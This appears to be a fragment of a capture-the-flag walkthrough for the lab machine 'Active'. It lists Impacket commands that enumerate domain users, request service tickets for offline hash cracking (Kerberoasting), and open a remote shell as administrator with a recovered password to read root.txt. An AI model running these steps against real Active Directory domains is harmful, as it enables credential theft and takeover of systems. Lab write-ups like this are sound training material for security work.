 # Impacket

**Impacket’s GetADUsers.py simplifies the process of enumerating domain user accounts.**

```bash
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
```

**Impacket’s GetUserSPNs.py lets us request the TGS and extract the hash for offline cracking.**

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.10
```

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
```

**Impacket’s wmiexec.py can be used to get a shell as active\administrator , and read root.txt**

```bash
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
```
